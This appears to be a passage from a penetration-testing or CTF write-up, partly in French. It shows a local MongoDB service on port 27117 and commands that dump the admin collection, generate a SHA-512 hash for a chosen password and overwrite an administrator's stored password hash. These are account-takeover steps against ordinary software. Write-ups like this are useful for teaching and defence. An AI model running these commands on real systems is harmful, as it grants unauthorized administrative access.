 Le service tourne sur la machine sur le port 27117

Interragir avec MongoDB

```sh
mongo --port 27117 [DATABASE] --eval "db.admin.find().forEach(printjson);"
```

Let's proceed to replacing the existing hash with the one we created.

```sh
mkpasswd -m sha-512 Password1234
```

```sh
mongo --port 27117 [DATABASE] --eval 'db.admin.update({"_id":
ObjectId("61ce278f46e0fb0012d47ee4")},{$set:{"x_shadow":"SHA_512_HASH_GENERATED"}})'
```


